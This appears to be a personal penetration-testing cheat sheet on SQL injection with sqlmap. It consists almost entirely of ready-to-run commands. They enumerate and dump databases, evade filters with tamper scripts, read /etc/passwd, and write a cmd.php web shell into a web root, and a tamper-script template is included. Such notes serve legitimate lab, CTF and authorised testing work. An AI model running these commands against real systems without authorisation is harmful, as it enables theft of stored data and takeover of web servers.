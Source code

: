 ```yaml
---
title: "SQL Injection"
date: 2024-6-30
tags: ["sqlmap", "sqli", "sql injection", "burpsuite"]
---
```


### sqlmap

<div>

```console
# In Burp Suite, we can right click the request and click `copy to file` to save the request
# And add `*` to request to indicate the sql injection point
```

</div>

<br>

<div>

```console
# Initial testing HTTP
sqlmap -r request --batch --banner --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10
```

```console
# Initial testing HTTPS
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --force-ssl
```

```console
# Add a string to indicate injection succeed (e.g. Invalid User vs Error Occurred)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --string 'Invalid User'
```

```console
# Get databases
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --dbs
```

```console
# Get tables
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --tables
```

```console
# Dump table
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> -T <TABLE_NAME> --dump
```

```console
# Dump all tables (slow)
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 -D <DB_NAME> --dump
```

```console
# Specify technique
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --technique U
```

</div>

#### Technique

<div>

```console
+------------------------+
| B: Boolean-based blind |
| E: Error-based         |
| U: Union query-based   |
| S: Stacked queries     |
| T: Time-based blind    |
| Q: Inline queries      |
+------------------------+
```

</div>

#### Advance sqlmap

<div>

```console
# File write
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --random-agent --file-write ./cmd.php --file-dest /var/www/html/cmd.php
```

```console
# Add payload tamper script, e.g. randomcase
sqlmap -r request --batch --proxy=http://127.0.0.1:8080 --level 3 --risk 3 --threads=10 --tamper randomcase
```

```console
# Check privileges
sqlmap -r request --privileges
```

```console
# Read a file
sqlmap -r request --file-read=/etc/passwd
```

```console
# Write a file
sqlmap -r request --file-write=./test.txt --file-dest=/tmp/test.txt
```

</div>

#### tamper.py template

<div>

```console
#!/usr/bin/env python3

from lib.core.enums import PRIORITY
__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    return payload
```

</div>

<small>*Note: create an empty \_\_init\_\_.py in the same folder*</small>

<br>
